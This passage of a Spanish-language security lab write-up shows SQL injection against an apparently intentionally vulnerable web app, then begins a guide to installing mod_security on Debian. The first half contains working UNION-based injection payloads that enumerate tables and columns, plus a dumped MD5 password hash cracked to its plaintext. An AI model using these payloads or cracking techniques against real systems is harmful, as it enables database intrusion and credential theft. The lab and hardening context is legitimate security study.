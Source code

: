         ID: ' or 0=1 union all select 1,table_name from information_schema.tables #
        First name: 1
        Surname: COLLATIONS

                --- [...] ---

        ID: ' or 0=1 union all select 1,table_name from information_schema.tables #
        First name: 1
        Surname: guestbook

        ID: ' or 0=1 union all select 1,table_name from information_schema.tables #
        First name: 1
        Surname: users

- El nombre de las columnas se puede averiguar mediante: 

```sql
' or 0=1 union all select 1,column_name from information_schema.columns #
```

De aquí en adelante ya todo es **imaginación** y **picardía**.

---

Un dato importante, es que al conseguir los usuarios y contraseñas, vimos que las contraseñas no estaban en texto plano:

        gordonb:e99a18c428cb38d5f260853678922e03

Por la longitud y el formato es fácil preveer que es un `MD5`, lo cual nos viene genial porque en la práctica también pasa lo mismo.

En este caso, si buscamos en páginas como `HashKiller.co.uk` (la cual es de mis favoritas), vemos que dicho `MD5` corresponde a la contraseña `abc123`.

## ⚠️ mod_security

Ante la imposibilidad de realizar pruebas en las máquinas por el error ya comentado, me dispondré a realizar una guía de instalación de `mod_security` (en mi caso, una máquina `Debian`):

### 📦 Instalación

Empezaremos instalando mediante `apt` el módulo:

        apt install libapache2-modsecurity

Nada más intentarlo, me ha saltado el siguiente error:

        (EAI 5) No address associated with hostname: mod_unique_id: unable to find IPv4 address of

Investigando un poco, esto viene dado porque `mod_security` requiere el uso de `mod_unique_id` el cual construye *magic tokens* a partir del *hostname*, por lo que hay que asignarle un host válido al servidor.

En mi caso añadiré mi host a `/etc/hosts` y reiniciaré `apache`:

```sh
service apache2 stop
nano /etc/hosts
        127.0.0.1 localhost ssi.web
service apache2 start
apachectl -M 2>/dev/null | grep security
```

